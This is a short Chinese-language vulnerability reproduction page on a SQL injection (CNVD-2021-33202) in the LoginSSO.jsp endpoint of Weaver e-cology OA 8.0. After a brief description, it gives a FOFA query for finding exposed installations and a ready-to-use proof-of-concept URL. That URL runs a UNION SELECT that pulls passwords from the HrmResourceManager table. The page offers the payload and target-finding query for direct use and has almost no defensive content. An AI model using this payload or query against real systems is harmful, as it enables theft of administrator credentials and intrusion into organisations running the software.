 # 泛微OA E-Cology LoginSSO.jsp SQL注入漏洞 CNVD-2021-33202

## 漏洞描述

泛微e-cology是专为大中型企业制作的OA办公系统,支持PC端、移动端和微信端同时办公等。 泛微e-cology存在SQL注入漏洞。攻击者可利用该漏洞获取敏感信息。

## 漏洞影响

```
泛微e-cology 8.0
```

## FOFA

```
app="泛微-协同办公OA"
```

## 漏洞复现

登录页面

![image-20220520133932334](./images/202205201339405.png)

验证POC

```
/upgrade/detail.jsp/login/LoginSSO.jsp?id=1%20UNION%20SELECT%20password%20as%20id%20from%20HrmResourceManager
```

![image-20220520134011931](./images/202205201340985.png)
